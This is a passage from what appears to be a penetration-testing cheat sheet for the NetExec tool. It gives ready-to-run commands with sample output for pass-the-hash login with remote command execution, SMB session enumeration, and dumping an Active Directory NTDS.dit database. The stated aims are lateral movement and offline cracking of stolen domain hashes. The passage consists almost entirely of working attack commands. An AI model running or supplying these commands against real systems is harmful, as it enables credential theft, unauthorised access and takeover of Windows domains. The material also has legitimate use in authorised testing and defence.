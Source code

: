 **Use Case**: Recovers cached credentials for lateral movement.

### 11. Pass-the-Hash
**Purpose**: Authenticate using NTLM hashes instead of passwords.

**Command**:
```bash
nxc smb 192.168.1.100 -u 'administrator' -H 'aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0' -x 'whoami'
```
**Explanation**:
- Uses an NTLM hash for authentication and executes a command.
- Example output:
  ```
  SMB         192.168.1.100 445 DC01 [+] example.com\administrator (Pwn3d!)
  SMB         192.168.1.100 445 DC01 example.com\administrator
  ```

**Use Case**: Bypasses password requirements with stolen hashes.

### 12. Session Enumeration
**Purpose**: List active SMB sessions to identify connected users.

**Command**:
```bash
nxc smb 192.168.1.100 -u 'administrator' -p 'P@ssw0rd' --sessions
```
**Explanation**:
- Shows users connected via SMB and their source IPs.
- Example output:
  ```
  SMB         192.168.1.100 445 DC01 [+] example.com\administrator:P@ssw0rd (Pwn3d!)
  SMB         192.168.1.100 445 DC01 [*] Enumerated sessions
  SMB         192.168.1.100 445 DC01 user1 from 192.168.1.50
  ```

**Use Case**: Identifies active sessions for lateral movement planning.

### 13. NTDS Dumping
**Purpose**: Extract Active Directory data from the NTDS.dit file.

**Command**:
```bash
nxc smb 192.168.1.100 -u 'administrator' -p 'P@ssw0rd' --ntds
```
**Explanation**:
- Dumps NTDS.dit using methods like `vss` or `drsuapi` (requires admin privileges).
- Example output:
  ```
  SMB         192.168.1.100 445 DC01 [+] example.com\administrator:P@ssw0rd (Pwn3d!)
  SMB         192.168.1.100 445 DC01 [*] Dumping NTDS.dit
  SMB         192.168.1.100 445 DC01 [*] Saved to /home/user/.nxc/ntds_192.168.1.100.dit
  ```

**Use Case**: Obtains domain user hashes for offline cracking.

